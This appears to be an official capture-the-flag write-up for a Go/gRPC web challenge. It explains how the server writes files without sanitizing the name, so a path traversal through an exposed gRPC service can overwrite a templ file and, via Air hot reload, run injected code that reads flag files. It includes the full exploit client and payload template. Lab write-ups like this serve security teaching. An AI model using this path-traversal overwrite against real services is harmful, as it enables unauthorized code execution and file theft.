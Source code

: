 ![img](https://github.com/hackthebox/writeup-templates/raw/master/challenge/assets/images/banner.png)

<img src="https://github.com/hackthebox/writeup-templates/raw/master/challenge/assets/images/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />        <font size="10">Testimonial</font>

5<sup>th</sup> February 2024 / D24.xx.xx

​Prepared By: ippsec

​Challenge Author(s): ippsec

​Difficulty: <font color=green>Easy</font>

​Classification: Official

# [Synopsis](#synopsis)

- The challenge involves an recruitment page for "They Fray" and allows anyone to submit a testimonial. The webstack utilizes GoLang with chi/templ and is deployed via Air, which allows for live reloading of golang applications. Testimonials is a GRPC Microservice and stored/retrieved as files. Exploitation occours because the Testimonial microservice is exposed to end-users, which provides the ability to overwrite the golang files on the webservice. Due to air live reloading files, it is possible to inject arbituary code.

## Description

* As the leader of the Revivalists you are determined to take down the KORP, you and the best of your faction's hackers have set out to deface the official KORP website to send them a message that the revolution is closing in.

## Skills Required

- Understanding of Golang, Templ, and Air
- Basic understanding of microservices

## Skills Learned

- Interacting with GRPC
- Golang web stacks

## Application Overview

![img](./assets/overview1.png)

In the source code provided to the challenge, we see the last line of the docker entrypoint is `air` and the .air.toml file has the following lines:
```conf
[build]
  bin = "./tmp/main"
  cmd = "templ generate && go build -o ./tmp/main ."
	
  ...
  include_ext = ["tpl", "tmpl", "templ", "html"]  
```
This indicates that modifying any tpl, tmlp, templ, or html file will trigger a rebuild to occour. This is common in development as it allows for quickly testing changes made to the application. Air should not be used on production in this way. 

The code on the webserver for submitting a testimonial looks like:
```go
func (c *Client) SendTestimonial(customer, testimonial string) error {
	ctx := context.Background()
	// Filter bad characters.
	for _, char := range []string{"/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
		customer = strings.ReplaceAll(customer, char, "")
	}

	_, err := c.SubmitTestimonial(ctx, &pb.TestimonialSubmission{Customer: customer, Testimonial: testimonial})
	return err
}
```
It is not possible to modify the templ file due to  the filter bad characters. The key piece to understand here is the SendTestimonial() function is code ran on the client, looking at the server code we can see no sanitization is done there:
```go
func (s *server) SubmitTestimonial(ctx context.Context, req *pb.TestimonialSubmission) (*pb.GenericReply, error) {
	if req.Customer == "" {
		return nil, errors.New("Name is required")
	}
	if req.Testimonial == "" {
		return nil, errors.New("Content is required")
	}

	err := os.WriteFile(fmt.Sprintf("public/testimonials/%s", req.Customer), []byte(req.Testimonial), 0644)
	if err != nil {
		return nil, err
	}

	return &pb.GenericReply{Message: "Testimonial submitted successfully"}, nil
}
```
This is common in microservice architecture because the services responsibility is to write files. If other services wanted to use this service, they may need different bad characters. The real vulnerability here is letting users interact directly with GRPC and for the web application to have "hot reloading".

# Creating the GRPC Client

Creating a GRPC Client to connect to the service is the easiest way to exploit this. It is likely possible to use a tool like `grpcurl` to perform this but you would need to pass a file in an argument over the command-line which involves a lot of escaping bad characters. The web application already imports the client and the source code is in the folder `client` which makes it easy to copy and modify.

In a new directory we can run `go mod init client` to start a new golang package. Then copy the pb (protobuf) folder and the contents of the client directory into this folder. In the `main.go` file edit the `GetClient()` function to point to the IP Address of the challenge. Then create a main function that looks like:
```go
func main() {
	client, err := GetClient()
	if err != nil {
		fmt.Println("Failed to connect to server:", err)
		return
	}

	f, err := ioutil.ReadFile("pwn.go")
	if err != nil {
		fmt.Println("Failed to read file:", err)
		return
	}

	fpath := "../../view/home/index.templ"
	fmt.Println("Sending testimonial from", fpath)
	client.SubmitTestimonial(context.Background(), &pb.TestimonialSubmission{Customer: fpath, Testimonial: string(f)})

	if err != nil {
		fmt.Println("Failed to send testimonial:", err)
		return
	}
}
```
This will read the file pwn.go and copy it over top of view/home/index.templ.  We can make a simple templ file that will look for the flag and display the contents:
```go
package home

import (
	"htbchal/view/layout"
	"io/ioutil"
	"path/filepath"
	"strings"
)

templ Index() {
	@layout.App(true) {
		<div>{pwn()}</div>
	}
}

func pwn() string {
	files, err := ioutil.ReadDir("..")
	if err != nil {
		return "Error reading directory: " + err.Error()
	}

	var result string
	for _, file := range files {
		if strings.HasPrefix(file.Name(), "flag") && strings.HasSuffix(file.Name(), ".txt") {
			filePath := filepath.Join("..", file.Name())
			content, err := ioutil.ReadFile(filePath)
			if err != nil {
				return "Error reading file: " + err.Error()
			}
			result += string(content) + "\n"
		}
	}

	return result
}
```
If we run this with `go run main.go` it should connect to the GRPC Server, then change the homepage to be the contents of the flag.
